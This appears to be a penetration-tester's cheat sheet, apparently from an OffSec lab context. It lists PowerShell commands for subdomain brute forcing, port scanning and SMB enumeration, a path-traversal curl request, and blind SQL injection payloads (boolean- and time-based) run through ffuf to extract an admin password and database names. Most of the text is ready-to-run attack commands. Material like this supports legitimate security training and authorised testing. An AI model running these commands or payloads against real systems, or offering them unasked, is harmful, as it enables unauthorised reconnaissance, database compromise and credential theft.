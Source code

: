 ```shell
webshells

villain # for shell management
```

## Attacker From Windows
```powershell
# DNS Enumeration
nslookup -type=TXT example.com 8.8.8.8
# bruteforce subdomain
Get-Content subdomains.txt | ForEach-Object { $sd="$_.example.com"; if ((nslookup $sd 2>$null) -match "Name:\s+$sd") { Write-Host "[+] $sd" } }

# Port Scanning
Test-NetConnection -Port 445 192.168.50.151
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

# SMB Enumeration
net view \\dc01 /all # where dc01 is the hostname
net use \\machine_name 

# Tools delivery
dism /online /Enable-Feature /FeatureName:TelnetClient # to install microsoft version of telnet but requires administrative privs
# we can transfer windows binary from our machine

```
## 🕸 Web Attack

```shell
# Exploitation
# sometimes browser can't show some file so use curl e.g. just an example
curl --path-as-is http://ip:port/../../../../../test.txt


# Blind SQLI - Boolean Based
# Payload: admin' AND BINARY SUBSTRING((SELECT password FROM users WHERE username = 'admin'),FUZZ_INDEX,1) = 'FUZZ_CHAR';#---
ffuf -c --request-proto http -request login.req -w <(seq 32):FUZZ_INDEX -w <(python -c 'import string; print("\n".join([x for x in string.ascii_letters + string.digits]))'):FUZZ_CHAR -fr 'Invalid password!' -o ffuf.json

# Blind SQLI - Time Based
# Payload: admin' AND IF (SUBSTRING(@@version, FUZZ_INDEX, 1) = FUZZ_CHAR, sleep(3),'false');#---
ffuf -c --request-proto http -request search.req -w <(seq 6):FUZZ_INDEX -w <(python -c 'import string; print("\n".join([x for x in string.digits]))'):FUZZ_CHAR -enc FUZZ_CHAR:urlencode    -o ffuf.json

payload="select%20group_concat(%20distinct%20table_name,':')%20from%20information_schema.columns" # we can use that var in below urldecoded: "select group_concat( distinct table_schema,':') from information_schema.columns" 
ffuf -u "http://192.168.227.16/blindsqli.php?user=offsec'%20and%20if(SUBSTRING((select%20database()),FUZZ_INDEX,1)='FUZZ_CHAR',sleep(3),false)%20--%20-" -w <(seq 32):FUZZ_INDEX -w <(python -c 'import string; print("\n".join([x for x in string.ascii_letters + string.digits+",:"]))'):FUZZ_CHAR -mt '>5000' -o test_ffuf.json
# sort -un and uniq can be used in case of repetitive characters

# for checking the result of this json file
cat ffuf.json | jq '.results[].input | .FUZZ_INDEX+" "+.FUZZ_CHAR' -r | sort -n | awk '{print $2}' | tr -d '\n'
```